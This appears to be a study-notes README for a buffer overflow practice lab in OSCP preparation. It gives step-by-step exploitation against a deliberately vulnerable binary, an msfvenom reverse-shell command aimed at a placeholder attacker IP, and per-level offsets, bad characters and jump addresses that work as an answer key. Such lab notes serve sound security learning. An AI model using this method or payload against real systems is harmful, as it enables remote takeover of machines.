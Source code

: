 # Buffer Overflow Prep

### oscp.exe - OVERFLOW1

**Crash Replication and Controlling EIP**

Fuzz the server until it crashes then note the byte value. Use the metasploit tool 
pattern_create.rb to create a cyclic pattern 400 bytes longer than the value that crashed 
the server (2400).

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400`

Copy the output and place it in the payload variable in exploit.py.

Run oscp.exe in Immunity Debugger and run exploit.py then, when the server has crashed, run 
`!mona findmsp -distance 2400` to find the EIP offset or use the formula: 
EIP offset = (ESP - 4) - (EAX + BYTE("OVERFLOW1_")).

Set the offset in exploit.py to the offset value here:
`EIP contains normal pattern : ... (offset XXXX)`

And set retn to BBBB in exploit.py and delete the payload.

Run the exploit and the EIP should be overwritten with 4 B's (42424242)

badchars: `\x00\x07\x08\x2e\x2f\xa0\xa1`

[Fuzzing script](./fuzzing.py)
[Exploit script](./exploit.py)

**Finding bad chars**

Create a bytearray with mona `!mona bytearray -b "\x00"` 
*Note: -b is deprecated and was replaced by -cpb*

Use python to generate a string of bad chars identical to the bytearray

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Paste the generated badchars into the payload variable in exploit.py and run it.

Copy the ESP register in ImmunityDebugger and use it in the following mona command:
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

A popup called mona memory comparison results should appear with the badchars

Update the bytearray with mona and the exploit payload, removing the badchars from the popup

Repeat the process until the popup returns a status of Unmodified, indicating no more 
badchars remain.

**Finding a Jump Point**

Run `!mona jmp -r esp -cpb <badchars>` to find all jmp esp instructions with addresses that 
don't contain any of the specified badchars

Copy one of the addresses and use it to set the retn variable in exploit.py.

The addresses are in little endian so need to be reversed.

**Generate Payload**

Use msfvenom to generate the payload 
`msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=4444 EXITFUNC=thread -b <BADCHARS> -f c`

Update the payload variable to use the shellcode using the following formatting:
```
payload = ("\xba\xbf\xef\xf4\xc3\xd9\xf6\xd9\x74\x24\xf4\x5e\x29\xc9"
...
"\x89")
```

**Prepend NOPs**

Since an encoder was likely used to generate the payload, you will need some space in memory 
for the payload to unpack itself. 

You can do this by setting the padding variable to a string of 16 or more "No Operation" 
(\x90) bytes 
`padding = "\x90" * 16`

**Exploit!**

Start netcat listener on the attacking machine and run exploit.py to gain a shell on the 
target.

### oscp.exe - OVERFLOW2

Fuzzing crashed the target at 700 bytes

EIP offset is 634

Found badchars: "\x00\x23\x3c\x83\xba"

Found jump point: 625011AF 

### oscp.exe - OVERFLOW3

Fuzzing crashed at 1300 bytes

EIP offset is 1274

Badchars are: "\x00\x11\x40\x5f\xb8\xee" 

Found jump point: 62501203

### oscp.exe - OVERFLOW4

Fuzzing crashed at: 2100 bytes

EIP offset is: 2026

Badchars are: \x00\xa9\xcd\xd4

Found jump point: 625011AF

### oscp.exe - OVERFLOW5

Fuzzing crashed at: 400 bytes

EIP offset is: 314

Badchars are: \x00\x16\x2f\xf4\xfd

Found jump point: 625011AF

### oscp.exe - OVERFLOW6

Fuzzing crashed at: 1100 bytes

EIP offset is: 1034

Badchars are: \x00\x08\x2c\xad

Found jump point: 625011AF

### oscp.exe - OVERFLOW7

Fuzzing crashed at: 1400 bytes

EIP offset is: 1306

Badchars are: \x00\x8c\xae\xbe\xfb

Found jump point: 625011AF

### oscp.exe - OVERFLOW8

Fuzzing crashed at: 1800 bytes

EIP offset is: 1786

Badchars are: \x00\x1d\x2e\xc7\xee

Found jump point: 625011AF

### oscp.exe - OVERFLOW9

Fuzzing crashed at: 1600 bytes

EIP offset is: 1514

Badchars are: \x00\x04\x3e\x3f\xe1

Found jump point: 625011AF

### oscp.exe - OVERFLOW9

Fuzzing crashed at: 600 bytes

EIP offset is: 537

Badchars are: \x00\xa0\xad\xbe\xde\xef

Found jump point: 625011AF